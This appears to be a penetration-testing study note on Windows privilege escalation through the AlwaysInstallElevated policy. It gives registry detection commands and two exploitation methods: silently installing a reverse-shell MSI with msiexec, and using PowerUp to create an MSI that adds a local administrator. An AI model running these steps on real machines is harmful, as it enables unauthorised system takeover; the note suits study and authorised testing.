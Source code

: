 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### 1st Method

**Detection**

Open command prompt and type: 

```command prompt - windows
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```

From the output, notice that “AlwaysInstallElevated” value is 1.  

In command prompt type: 

```command prompt - windows
reg query HKCU\Software\Policies\Microsoft\Windows\Installer  
```

From the output, notice that “AlwaysInstallElevated” value is 1.

Extra step: Run the following to look for any conditions.
```powershell - target
get-applockerpolicy -effective | select -expandproperty rulecollections
```

In this example, the malicious msi file would need to go in the `C:\Administrator` path.

![[Pasted image 20220927101417.png]]

**Exploitation**

[[1._Reverse Shells (WIN)#msi]]

Place ‘reverse.msi’ in `C:\Temp`.  

Open command prompt and type: 

```command prompt - windows
msiexec /quiet /qn /i C:\<PUT_THE_ENTIRE_PATH>\reverse.msi
```

#### 2nd Method
```command prompt - windows
powershell -ep bypass
```

```powershell - windows
. .\PowerUp.ps1
```

```powershell - windows
Invoke-AllChecks
```

![[Pasted image 20220207104341.png]]

```powershell - windows
Write-UserAddMSI
```

Now you will see a UserAdd file in the same directory as the PowerUp file.

![[Pasted image 20220207104500.png]]

Open the UserAdd file.

Fill in details, click create.

```command prompt - windows
net localgroup administrators
```

See our new user is now listed there.


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
